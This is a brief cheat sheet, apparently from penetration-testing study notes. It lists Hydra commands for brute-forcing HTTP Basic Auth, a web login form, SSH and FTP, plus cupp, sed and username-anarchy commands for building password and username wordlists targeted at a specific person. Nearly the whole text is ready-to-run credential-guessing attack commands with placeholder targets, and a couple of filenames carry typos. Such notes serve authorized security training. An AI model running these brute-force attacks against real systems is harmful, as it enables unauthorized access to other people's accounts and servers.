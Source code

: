 # Hydra

Basic Auth Brute Force - Combined Wordlist
```shell
hydra -C wordlist.txt SERVER_IP -s PORT http-get /
```

Basic Auth Brute Force - User/Pass Wordlists
```shell
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /
```
 
Login Form Brute Force - Static User, Pass Wordlist
```shell
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

SSH Brute Force - User/Pass Wordlists
```shell
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4
```

FTP Brute Force - Static User, Pass Wordlist
```shell
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

# Wordlists

Creating Custom Password Wordlist 
```shell
cupp -i
```
 
Remove Passwords Shorter Than 8 
```shell
sed -ri '/^.{,7}$/d' william.tx
```

 Remove Passwords With No Special Chars
```shell
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt
```

Remove Passwords With No Numbers
```shell
sed -ri '/[0-9]+/!d' william.txt
```

Generate Usernames List 
```shell
./username-anarchy Bill Gates > bill.tx
```
 

